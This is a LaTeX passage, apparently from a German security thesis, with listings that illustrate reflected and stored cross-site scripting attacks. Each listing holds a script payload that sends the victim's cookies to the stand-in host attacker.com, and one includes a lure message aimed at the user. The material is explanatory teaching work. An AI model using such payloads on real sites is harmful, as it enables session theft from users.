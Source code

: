 \begin{lstlisting}[caption={Beispiel für reflected XSS Attacke},label=reflected_xss_example]
/*
	Der Angreifer erstellt einen besonders hinterhaeltigen Schadcode und platziert ihn als Teil einer Suchanfrage.
*/

Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
	<tr> Table of Search Results
	.
	.
	.
	.
	</tr>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

\begin{figure}[ht]
	\centering
	\includegraphics[width=1\linewidth]{images/medium/1_persistent_xss.png}
	\caption[Der Prozess des stored XSS-Angriffs]
	{Der Prozess des stored XSS-Angriffs \autocite{makarem2018b}}
\end{figure}


\begin{lstlisting}[caption={Beispiel für stored XSS Attacke},label=stored_xss_example]
POST "http://website/post-comment",
body{"<script>window.location='http://attacker.com/?cookie='+document.cookie</script>}


Latest Comment: "<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> Previous Comment: </h1>
		Sandwiches are delicious
	<h1> Latest Comment: </h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

